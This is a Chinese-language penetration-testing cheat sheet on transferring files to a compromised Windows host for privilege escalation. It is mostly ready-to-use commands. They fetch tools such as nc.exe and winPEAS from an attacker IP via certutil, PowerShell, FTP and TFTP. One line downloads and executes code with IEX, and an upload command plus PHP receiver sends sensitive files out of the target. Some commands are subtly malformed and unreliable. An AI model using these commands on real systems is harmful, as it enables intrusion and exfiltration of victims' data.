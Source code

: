 ```yaml
---
description: 在目标系统中已经成功建立立足点后，需要传输一些脚本到目标系统中，以实现后续的提权操作
---
```


# ✔️ Windows文件传输 - Windows File Transfer

## 常用工具

1. certutil.exe
2. FTP
3. Powershell

## 常规方法

### 利用certutil.exe传输

{% hint style="info" %}
首选，兼容老旧的Windows系统：Windows XP / Windows Server 2003 / Windows Vista / Windows Server 2008 / Windows 7 /...

因为老旧的Windows系统没有默认安装或者安装的不是完整版的Powershell，但是certutil.exe是所有Windows系统都有的程序。
{% endhint %}

```bash
# 在攻方主机上开启简单的服务器
python2 -m SimpleHTTPServer 8888
python3 -m http.server 8888
```

```powershell
# 在目标主机上从攻方服务器上下载需要的程序
certutil -urlcache -f http://攻方IP:8888/winPEAS.exe winpeas.exe
```

### certutil.exe其他用法

```powershell
# 从互联网上下载程序
certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
# 对文件进行Base64编码
certutil -encode inputFileName encodedOutputFileName
# 解码已被Base64编码的文件
certutil -decode encodedInputFileName decodedOutputFileName
# 解码已被16进制编码的文件
certutil --decodehex encoded_hexadecimal_InputFileName
```

### 利用FTP传输

大多是Windows机器都有FTP客户端，但是无法交互使用（可能会杀掉shell）。解决办法：

1. 首先在攻方主机上，自己配置好FTP服务器（用于登录的用户凭证）；
2. 在目标主机上操作，将待执行的命令依次写入一个文本文件中；
3. 将该文本文件作为FTP的输入，执行（即反向连接到攻方FTP服务器）。

```bash
# 目标主机上
echo open 攻方IP 21> ftp.txt
echo USER 用户名>> ftp.txt
echo 密码>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

```bash
# Target
ftp -v -n -s:ftp.txt
```

### 利用Powershell传输

#### 下载

```powershell
# 在目标机器中下载需要的程序
Invoke-WebRequest -URL http://<攻方IP>/nc.exe -OutFile nc.exe
powershell (New-Object System.Net.WebClient).DownloadFile('http://攻方IP/nc.exe', 'nc.exe')
# 下载&执行
powershell IEX (New-Object System.Net.WebClient).DownloadString('http://攻方IP/nc.exe')
```

#### 上传

```powershell
# 目标主机上
powershell(New-ObjectSystem.Net.WebClient).UploadFile('http://<攻方IP>/uploadwindows.php','.\<目标上的敏感文件>')
```

在攻方主机/var/www/html目录下分别创建：/uploads目录和uploadwindows.php文件

```php
# uploadwindows.php
<?php
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir.$_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'],$uploadfile)
?>
```

#### 其他下载方法

在目标系统上，先创建一个Powershell脚本，然后调用语法执行该脚本：

```powershell
# 在目标中创建wget.ps1脚本
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://攻方IP/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

```powershell
# 
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

## 利用TFTP传输

适用于（默认安装了TFTP）：Windows XP / Windows 2003 / Kali内置

可以非交互式使用，shell被杀掉的可能性很小。

```bash
# 在攻方Kali主机上
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart

# 然后将要传输的文件或程序放进/srv/tftp 中，并确认TFTP服务器是否被正确运行：
netstat -a -p UDP | grep udp

# 从目标Windows系统上下载所需的内容
tftp -i 目标IP GET wget.exe
```

## 其他

```bash
# 从目标主机上获取攻方主机上需要的程序
 wget http://攻方IP/nc.exe -o nc.exe
 wget -b http://攻方IP/nc.exe
# 
```
